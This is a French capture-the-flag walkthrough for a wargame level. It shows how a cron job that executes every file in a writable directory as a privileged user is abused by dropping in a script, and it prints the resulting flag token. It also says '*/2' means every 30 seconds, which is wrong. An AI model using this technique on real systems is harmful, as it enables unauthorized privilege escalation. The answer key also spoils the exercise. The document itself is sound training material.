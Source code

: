 Dès qu'on se connecte au level05, une notification apparaît :
<pre><code>You have new mail.</code></pre>

On fait un **cat** du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tâche **cron** dont le format est le suivant:
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> Donc toutes les 30 secondes la tâche: <code>su -c 'sh /usr/sbin/openarenaserver"</code> va s'exécuter

On **cat** le fichier <code>/usr/sbin/openarenaserve</code>, ce qui nous donne :
```sh
#!/bin/sh
for i in /opt/openarenaserver/* ; do 
# Pour chaque fichier dans le dossier
		(ulimit -t 5; bash -x "$i")	 
		# Avec un interval de 5 sc, executer le fichier
		rm -f "$i"					 
		# Supprimer le fichier
done
```

L'idée est de créer un fichier que l'on va mettre dans le dossier <code>/opt/openarenaserver/</code> afin qu'il s'exéctue dès que la tâche **cron** s'active :
<pre><code>echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> On stocke dans <code>/tmp/token</code> le resultat car **cron** s'effectue en background et n'affiche pas de message


Il nous suffit de faire des **ls** de <code>/opt/openarenaserver/</code> et d'attendre que le ficher <code>/opt/openarenaserver/getflash.sh</code> se fasse supprimer pour savoir quand la tâche a été effectuée, ainsi il ne nous reste plus qu'a récuperer le flag :
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>
